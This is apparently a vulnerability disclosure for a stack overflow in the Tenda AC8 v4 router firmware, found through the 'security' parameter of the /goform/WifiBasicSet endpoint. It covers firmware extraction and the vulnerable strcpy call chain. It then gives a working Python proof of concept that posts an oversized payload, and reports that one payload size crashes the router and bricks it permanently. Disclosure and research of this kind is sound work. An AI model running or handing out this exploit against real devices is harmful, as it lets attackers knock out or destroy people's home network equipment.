






# Tenda AC8 v4 V16.03.34.06
Under **/goform/WifiBasicSet**, the parameters **security** and **security_5g** can lead to stack overflow vulnerabilities【The following takes the stack overflow caused by the **security** parameter as an example】
## Environment & Tool Versions Used:  
- Ubuntu 22.04  
- binwalk v2.2.1  
- IDA Pro 9.0  


## Environment Preparation  
Download the corresponding router firmware from the official website: https://tenda.com.cn/material/show/3518  
- Firmware: AC8 v4 Upgrade Software_V16.03.34.06  
- Software Version: V16.03.34.06  
- Update Date: November 29, 2024  
- File Size: 6.86 MB  
- File Format: zip  


After unzipping the downloaded zip file, use the binwalk tool to parse the firmware:  
```bash
binwalk -eM [firmware file]  # The latest binwalk version has poor parsing effect, so v2.2.1 is used here.
```  

After normal parsing, navigate to the `squashfs-root` directory. The router startup program path is `./bin/httpd`. Use the `file` command to check the program:  



## Vulnerability Proof  
In the `/goform/WifiBasicSet` endpoint, the `security` and `security_5g` parameters cause a stack overflow vulnerability. The `formWifiBasicSet` function calls `sub_45F3E8`, which proceeds through the following functions:  
`sub_45F3E8 -> sub_45E1C4 -> sub_45DC58`  

In `sub_45DC58`, the `strcpy` function at line 30 causes a stack overflow vulnerability.  



the program will accept the `security` parameter in `sub_45DC58`. An attacker can input sufficiently long data into this parameter, causing a buffer overflow when the program executes the `strcpy` function.  

### POC (Proof of Concept)  
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0',
    "Cookie": "password=381acc5cfbc629c40245413ef90a4439mffcvb"  # If the router has a password, capture the cookie first.
}

url = "http://tendawifi.com"
url_vuln = url + "/goform/WifiBasicSet"

# payload = 'a'*0x100  # No stack overflow, router runs normally.
# payload = 'a'*(0x100+8)  # Not recommended; may brick the router.
payload = 'a'*0x1000  # Management interface returns to login page.

data = {
    'security': payload
}

response = requests.post(url_vuln, data=data, headers=headers)
print(response.text)
```  


#### Test Results  
1. When `payload = 'a'*0x100`:  


2. When `payload = 'a'*0x1000`:  

(The router's management interface returns to the login page, but other devices remain connected.)  

3. When `payload = 'a'*(0x100+8)`:  
The router crashes, disconnects all devices, and cannot be reconnected even after a reboot.  


**Note**: The vulnerability was confirmed through code auditing and real-world testing.
